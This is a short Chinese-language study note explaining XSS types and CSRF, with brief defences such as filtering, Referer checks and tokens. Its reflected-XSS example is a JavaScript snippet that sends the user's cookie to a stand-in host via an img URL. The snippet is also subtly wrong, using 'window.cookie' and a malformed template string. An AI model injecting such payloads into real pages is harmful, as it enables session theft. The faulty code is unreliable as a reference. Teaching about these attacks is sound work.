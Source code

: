 # XSS && CSRF

## 1. XSS

XSS（Cross Site Scripting）跨站脚本攻击。

看起来很深奥，但是这是原理和简单，攻击者将script标签插入用户的浏览的web页面，csript代码会执行，这样可以获取用户的敏感信息。

分类：

反射性
存储型
DOM型：在url后面添加script标签内容
反射性： 比如有个网页需要，填写一个信息并返回给用户，当我们在输入框内容写成下面内容，但返回给用户就执行这个语句了。

```js
var cook = window.cookie
var img = `<img src="www.syte.com/get.php?cook=${cook}"` />
document.write(img)
```

注入这个片段后执行时获取用户 cookie 并把 cookie 发送到 `www.syte.com` 域名中。

在后端过滤这个script来解决这个问题，还有一个标签当img标签加载失败（img有一个onerror方法，图片加载失败时触发这个方法）也可以发送请求。

## 2. CSRF

CSRF（Cross Site Request Forgy）跨站请求伪造，是一种对网站的恶意利用。

举个例子，当你在一个网站上登陆成功以后，攻击者在你登陆的网站上生成一个点击的按钮或连接，比如点击抽奖等。当你点击以后，以你的名义（你登陆后发送请求时，请求会带上cookie来确认你身份）向服务器发送而已请求，比如修改你的账号密码。

csrf

要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1.登录受信任网站A，并在本地生成Cookie。

2.在不登出A的情况下，访问危险网站B。

如何让防范？

验证 HTTP Referer 字段
在请求地址中添加 token 并验证

 
 <comment-comment/> 
 